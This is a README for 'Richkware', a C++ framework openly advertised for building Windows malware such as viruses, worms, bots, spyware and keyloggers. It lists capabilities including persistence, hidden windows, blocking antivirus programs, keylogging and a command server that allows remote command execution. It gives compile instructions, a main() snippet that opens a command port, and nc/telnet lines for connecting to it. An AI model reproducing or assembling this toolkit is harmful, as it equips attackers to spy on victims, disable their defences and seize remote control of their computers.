 # Richkware
Framework for building Windows malwares, written in C++.

##Description

It's a library of network and OS functions, that you can use to create a malware.
The compositions of these functions, according to different logics permit at the application 
to assume behaviors associable to the following types of malware:

- Virus
- Worms
- Bot
- Spyware
- Keylogger
- Scareware

##FUNCTIONS

###Network

- **StartServer**: start a server on an arbitrary port, to receive commands from the Internet, 
thus allowing to run commands or make changes to application state;
- **RawRequest**: send a request to a server;

###System

- **SaveValueReg** and **LoadValueReg**
- **SaveSession** and **LoadSession**: save the application state(encrypted) in the system;
- **IsAdmin** and **RequestAdminPrivileges**: check and require administrator privileges;
- **Persistance**: install itself permanently in the system.
- **StealthWindow**: hide applications;
- **OpenApp**: open arbitrary applications;
- **BlockApps** e **UnBlockApps**: block and Unblock applications (antivirus, ...);
- **Keylogger**

###Cryptography

- **EncryptDecrypt**

###Other

- **RandMouse**: move randomly the mouse cursor
- **Hibernation**: hibernate system;

##COMPILE

After **main.cpp** implementation, you can compile as follows.

###Using MinGW for Windows or MinGW cross compiler for Linux build environment

	make

###Using Microsoft C++ compiler (Visual Studio)
- C/C++ > Proprocessor > Proprocessor Definitions, add "\_CRT\_SECURE\_NO\_WARNINGS" 
- Linker > Input > Additional Dipendencies, add "Ws2_32.lib"


##REMOTELY COMMAND EXECUTION

Call function **StartServer** in the main, that starts server on port 8000.

	int main () {
		Richkware richkware ;
		richkware.StartServer ("8000");
		return 0;
	}

###Connect from Unix systems

In Unix systems, you can use **netcat**.

	nc <serverName> 8000

###Connect from Windows

In Windows, you can use **telnet**.

	telnet <serverName> 8000